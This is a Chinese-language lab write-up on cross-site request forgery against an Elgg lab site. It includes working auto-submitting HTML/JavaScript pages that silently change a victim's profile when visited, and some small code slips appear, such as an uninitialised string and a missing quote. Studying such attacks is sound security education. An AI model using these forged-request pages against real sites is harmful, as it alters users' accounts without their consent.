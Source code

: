# 针对http post服务的CSRF攻击

## js构建post请求一般做法

```html
<form action="http://www.example.com/action_post.php" method="post">
    Recipient Account: <input type="text" name="to" value="3220"><br>
    Amount: <input type="text" name="amount" value="500"><br>
    <input type="submit" value="Submit">
</form>
```
如果用户点击Submit按钮，一个post请求就会发送出去，并且to=3220&amount=500也会包含其中。
但是用户很可能不会去点这个按钮。那么可以把表单隐藏起来，用js程序来单击这个按钮
```javascript
<script type="text/javascript">
function forge_post() {
  var fields;
  fields += "<input type='hidden' name='to' value='3220'>";
  fields += "<input type='hidden' name='amount' value='500'>";
  
  var p = document.createElement("form");
  p.action = "http://www.example.com/action_post.php";
  p.innerHTML = fields;
  p.method = "post";
  document.body.appendChild(p);
  p.submit();
}

window.onload = function() {
  forge_post();
}
</script>
```

## 针对Elgg的编辑个人资料服务的攻击

攻击目标：攻击Alice，让她的个人资料改成"SAMY is MY HERO"  

### 首先要观察所需字段

首先登陆Samy账户，Account--Setting--Edit profile
![编辑profile](../img/csrf-profile.png)
可以看到请求url为：http://www.csrflabelgg.com/action/profile/edit  
Params栏中description为个人资料，可以分析出来个人资料中每块区域都有访问等级限制，设置为2时所有
人都可以看到，这个字段为accesslevel[description]   
![profile中的params](../img/csrf-params.png)

GUID是目标用户的id，这个图中45是Samy，我们通过访问Alice个人主页可以看到Alice的guid为42
![alice的guid](../img/csrf-alice.png)

### 构建恶意网页

```html
<html>
    <body>
        <h1>This page forges an HTTP POST request</h1>
        <script type="text/javascript">
            function forge_post(){
                var fields;
                
                fields = "<input type='hidden' name='name' value='Alice'>";
                fields += "<input type='hidden' name='description' value='SAMY is MY HERO'>";
                fields += "<input type='hidden' name='accesslevel[description] value='2'>";
                fields += "<input type='hidden' name='guid' value='42'>";
                
                var p = document.createElement("form");
                p.action = "http://www.csrflabelgg.com/action/profile/edit";
                p.innerHTML = fields;
                p.method = "post";
                document.body.appendChild(p);
                p.submit();
            }
            
            window.onload = function() {
                forge_post();
            }
        </script>
    </body>
</html>
```
这个页面放在/var/www/CSRF/Attacker
![构建恶意网页](../img/csrf-evilweb.png)

### 吸引Alice访问恶意网页

Alice账户登录，点恶意网页www.csrflabattacker.com  
会自动跳转到目标网站，并且个人主页已经被改掉  
![攻击成功](../img/csrf-attack-post.png)